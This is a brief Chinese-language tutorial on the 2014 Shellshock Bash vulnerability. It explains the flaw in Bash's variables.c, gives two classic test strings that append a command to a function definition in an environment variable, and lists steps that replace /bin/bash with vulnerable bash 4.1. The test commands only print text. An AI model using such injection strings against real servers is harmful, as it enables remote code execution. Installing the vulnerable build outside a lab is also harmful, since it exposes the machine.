 # Shellshock攻击

## Shellshock背景

2014年9月24日，Bash程序被发现存在一个严重的安全漏洞。攻击者可以利用该漏洞在被影响的服务器上执行任意代码。这个严重的安全漏洞被称为
Shellshock漏洞。

## 漏洞原理

Bash源代码variables.c这个文件中有下面这段代码：
![Bash源代码](../img/shellshock-source.png)  
这个函数的作用是读取环境变量的值并转换成函数，由于他只判断了值的头没有判断尾，故只要在尾部加入攻击语句就会执行

## 测试方法

方法一：
```bash
export foo='() { echo "hello world"; }; echo "extra";'
bash
```
方法二：
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

## 环境搭建

```bash
sudo apt-get update
sudo apt install gcc make -y  
wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz  
tar xf bash-4.1.tar.gz
cd bash-4.1
./configure
make
sudo make install
sudo rm /bin/bash
ln -s /usr/local/bin/bash /bin
```